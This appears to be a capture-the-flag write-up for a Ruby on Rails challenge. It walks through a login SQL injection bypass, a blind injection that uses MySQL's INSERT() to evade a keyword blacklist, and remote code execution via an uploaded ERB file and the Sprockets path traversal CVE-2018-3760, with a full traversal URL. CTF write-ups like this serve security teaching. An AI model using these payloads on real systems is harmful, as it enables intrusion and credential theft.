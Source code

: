 This challenge was a ruby on rails application.  
The index route redirects to a login page, which is vulnerable to sql injection  
After people bypass auth with simple payloads like `' or 1=1 #` you will know that the goal is to retreive admin password using sqli and login into /admin.  
The filter was :  
```RUBY
hack =  /union|benchmark|strcmp|locate|STRCMP|position|file|concat|sleep|md5|mid|sub|count|and|left|load|space|instr|pad|conv|right|ascii|cast|reverse|locate|glob|having|like|match|char|regexp|limit|order|group|hex|information/i
```
So there is no substr functions no unions etc ...  
A possible solution(there are others) is to use insert function basically you can do :  
SELECT ('a')=(insert((SELECT password from users where isadmin=1), 2, 255, ''));  
And do blind injection to retreive password, more details about this technique are [here](https://gist.github.com/stypr/43fce10db9fa44b5f072442245d9e82e)  
After finding the admin password and login into /admin, we will be redirected to /upload where you can upload any file you want, the only thing that is returned is the PATH of that file.  
Gemfile shows the version of Sprockets that was used, which was vulnerable to CVE-2018-3760  
Basically you need to upload an erb file containing your payload and abuse the CVE to get RCE :  
The payload for rce looks like : http://185.168.131.128:8080/assets/file:%2f%2f/home/web03/app/app/assets/images/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252e%252e/%252E%252E/%252E%252E/home/web03/app/uploads/resumes/someHash/file.erb%3Ftype=text/plain  
For more details about the CVE , check Orange Tsai talk at BHUSA 2018.
Note: The application was on production mode but flag assets.compile was on.
